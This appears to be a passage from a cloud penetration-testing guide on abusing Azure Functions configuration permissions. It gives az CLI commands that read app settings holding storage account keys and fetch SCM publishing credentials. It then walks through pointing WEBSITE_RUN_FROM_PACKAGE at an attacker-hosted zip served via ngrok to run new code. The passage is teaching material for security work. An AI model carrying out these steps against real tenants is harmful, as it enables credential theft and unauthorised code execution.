 ### Microsoft.Web/sites/config/list/action

This permission allows to get the settings of a function. Inside these configurations it might be possible to find the default values **`AzureWebJobsStorage`** or **`WEBSITE_CONTENTAZUREFILECONNECTIONSTRING`** which actually contains an **account key to access the blob storage of the function with FULL permissions**.

{% code overflow="wrap" %}
```bash
az functionapp config appsettings list --name <func-name> --resource-group <res-group>
```
{% endcode %}

Moreover, this permission also allows to get the **SCM username and password** (if enabled) with:

{% code overflow="wrap" %}
```bash
az rest --method POST \
  --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/config/publishingcredentials/list?api-version=2018-11-01"
```
{% endcode %}

### Microsoft.Web/sites/config/list/action, Microsoft.Web/sites/config/write

These permissions allows to list the config values of a function as we have seen before plus **modify these values**. This is useful because these settings indicate where the code to execute inside the function is located.&#x20;

It's therefore possible to set the value of the setting **`WEBSITE_RUN_FROM_PACKAGE`** pointing to a zip file containing the new code to execute inside a web application:

* Start by getting the current config

```bash
az functionapp config appsettings list \
  --name <app-name> \
  --resource-group <res-name>
```

* Create the code you want the funciton to run and host it publicly

```bash
# Write inside /tmp/web/function_app.py the code of the function 
cd /tmp/web/function_app.py
zip function_app.zip function_app.py
python3 -m http.server

# Serve it using ngrok for example
ngrok http 8000
```

* Modify the function, keep the previous parameters and add at the end the config **`WEBSITE_RUN_FROM_PACKAGE`** pointing to the URL with the **zip** containing the code.

The following is an example of my **own settings you will need to change the values for yours**, note at the end the values `"WEBSITE_RUN_FROM_PACKAGE": "https://4c7d-81-33-68-77.ngrok-free.app/function_app.zip"` , this is where I was hosting the app.
